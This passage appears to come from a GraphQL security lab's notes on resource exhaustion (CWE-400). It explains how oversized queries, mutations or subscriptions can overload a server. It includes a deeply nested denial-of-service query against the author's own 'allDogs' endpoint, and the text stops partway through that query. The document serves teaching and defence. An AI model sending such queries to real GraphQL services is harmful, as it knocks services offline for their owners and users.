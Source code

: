 ### Resource exhaustion

[CWE-400](https://cwe.mitre.org/data/definitions/400.html)

#### Issue

As the client control the amount of data requested it can send a GrapQL request to a query that cause a resource exhaustion on the storages called by the GraphQL server along the GraphQL server itself for the serialization of data to JSON.

This issue can also happen using a mutation by sending a large amount of data in the parameters (input validation can used here to prevent this attack).

This issue can also happen using a subscription by either:

* Register a large amount of subscribers and on each subscription exposed.
* Send a large amount of data in the parameters used by the subscriptions.

In my labs I have a vulnerability on this point for query, precisely in the query `allDogs(onlyFree: Boolean = false, limit: Int = 500): [Dog!]` that is available for anonymous user and retrieve the content of the DB about the Dog. As there a relation between Dogs and a Veterinary and the reverse then it's possible to perform cascading call causing resource exhaustion at SQL level on the DB.

**Example:**

When I send this request, I cause my CPU to go to 100% during several minutes and my DB is local because it's an SQLite

```javascript
query dos {
  allDogs(onlyFree: false, limit: 1000000) {
    id
    name
    veterinary {
      id
      name
      dogs {
        id
        name
        veterinary {
          id
          name
          dogs {
            id
            name
            veterinary {
              id
              name
              dogs {
                id
                name
                veterinary {
                  id
                  name
                  dogs {
                    id
                    name
                    veterinary {
                      id
                      name
                      dogs {
                        id
                        name
                      }
                    }
                  }
                }
```